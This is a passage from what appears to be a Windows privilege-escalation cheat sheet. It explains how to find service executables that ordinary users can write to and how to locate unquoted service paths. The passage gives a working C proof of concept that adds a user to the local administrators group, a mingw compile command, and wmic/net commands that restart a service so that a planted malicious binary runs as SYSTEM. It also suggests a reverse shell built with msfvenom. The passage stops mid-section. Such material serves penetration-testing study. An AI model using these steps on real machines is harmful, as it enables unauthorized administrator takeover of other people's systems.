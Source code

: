 What we are interested in is binaries that have been installed by the user. In the output you want to look for BUILTIN\Users:(F). Or where your user/usergroup has (F) or (C) rights.

Example:

    C:\path\to\file.exe 
    BUILTIN\Users:F
    BUILTIN\Power Users:C 
    BUILTIN\Administrators:F 
    NT AUTHORITY\SYSTEM:F

That means your user has write access. So you can just rename the .exe file and then add your own malicious binary. And then restart the program and your binary will be executed instead. This can be a simple getsuid program or a reverse shell that you create with msfvenom.

**Here is a POC code for getsuid.**

    #include <stdlib.h>
    int main ()
    {
    int i;
        i = system("net localgroup administrators theusername /add");
    return 0;
    }

**We then compile it with mingw like this:**

    i686-w64-mingw32-gcc windows-exp.c -lws2_32 -o exp.exe

**Restart the Service**

Okay, so now that we have a malicious binary in place we need to restart the service so that it gets executed. We can do this by using wmic or net the following way:

    wmic service NAMEOFSERVICE call startservice
    net stop [service name] && net start [service name].

The binary should now be executed in the SYSTEM or Administrator context.



### Unquoted Service Paths

Find Services With Unquoted Paths

#### Using WMIC
    wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """

#### Using sc
    sc query
    sc qc service name

**Look for Binary_path_name and see if it is unquoted.**

If the path contains a space and is not quoted, the service is vulnerable.

**Exploit It**
If the path to the binary is:
